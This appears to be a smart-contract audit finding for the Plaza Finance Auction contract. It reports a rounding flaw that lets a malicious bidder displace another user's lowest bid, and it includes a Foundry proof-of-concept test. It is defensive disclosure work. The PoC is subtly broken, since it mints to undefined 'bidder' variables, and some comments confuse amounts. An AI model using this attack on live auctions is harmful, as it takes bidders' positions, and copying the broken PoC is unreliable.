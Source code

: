 Acrobatic Bronze Marmot

High

# Malicious user could swap the lowest bid with same price.

### Summary

Malicious user could remove other's lowest bid and insert his bid.


### Root Cause

In `bid` function in `Auction.sol`, if `currentCouponAmount` exceeds `totalBuyCouponAmount`, `removeExcessBids` will be called.
As a result, there could be lowest bid and it's `sellCouponAmount` and `buyReserveAmount` could be decrease to make `currentCouponAmount = totalBuyCouponAmount`.

https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L273-L290
```solidity
    } else {
       // Calculate the proportion of sellAmount being removed
       uint256 proportion = (amountToRemove * 1e18) / sellCouponAmount;
       
       // Reduce the current bid's amounts
       currentBid.sellCouponAmount = sellCouponAmount - amountToRemove;
       currentCouponAmount -= amountToRemove;

       uint256 reserveReduction = ((currentBid.buyReserveAmount * proportion) / 1e18);
       currentBid.buyReserveAmount = currentBid.buyReserveAmount - reserveReduction;
       totalSellReserveAmount -= reserveReduction;
       
       // Refund the proportional sellAmount
       IERC20(buyCouponToken).safeTransfer(currentBid.bidder, amountToRemove);
       
       amountToRemove = 0;
       emit BidReduced(currentIndex, currentBid.bidder, currentBid.buyReserveAmount, currentBid.sellCouponAmount);
     }
```

As a result, the value of  `currentBid.buyReserveAmount/currentBid.sellCouponAmount` could be larger than before due to rounding.
And it will be the lowest price bid. 
Other user can insert bid with the previous lowest bid's `buyReserveAmount` and `sellCouponAmount`.
Consequently, the lowest bid will be removed because `currentCouponAmount` exceeds `totalBuyCouponAmount`, 
Additionally, the `buyReserveAmount` and `sellCouponAmount` of the other users' bids will decrease to match the amount of the removed lowest bid. As a result, this users' bid will effectively become the new lowest bid at the same price.

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

_No response_

### Impact

Lowest bid could be removed with the same price.

### PoC

```solidity
contract AuctionTest is Test {
   Auction auction;
   Token usdc;
   Token weth;

   address lowest = address(0x1);
   address malicious = address(0x2);
   address house = address(0x3);

   address pool;

function testSwapLowestBid() public {

    usdc = new Token("USDC", "USDC", false);
    weth = new Token("WETH", "WETH", false);
    
    pool = createPool(address(weth), address(usdc));
    useMockPool(pool);

    vm.startPrank(pool);
    auction = Auction(Utils.deploy(
      address(new Auction()),
      abi.encodeWithSelector(
        Auction.initialize.selector,
        address(usdc),
        address(weth),
        55555555,
        block.timestamp + 10 days,
        1,
        house,
        90
      )
    ));
    vm.stopPrank();
    vm.startPrank(lowest);
    usdc.mint(bidder, 1000 ether);
    usdc.approve(address(auction), 1000 ether);
    auction.bid(100 ether, 99999999); // lowest's `currentCouponAmount` is decreases to 55555555 and will be the lowest price.
    vm.stopPrank();

    vm.startPrank(malicious );
    usdc.mint(bidder2, 1000 ether);
    usdc.approve(address(auction), 1000 ether);
    auction.bid(100 ether, 99999999);//remove the lowest because it is higher price than the lowest before decreasing.
    vm.stopPrank();
  }
```
### Mitigation

Please check if the lowest bid is removed with the same price.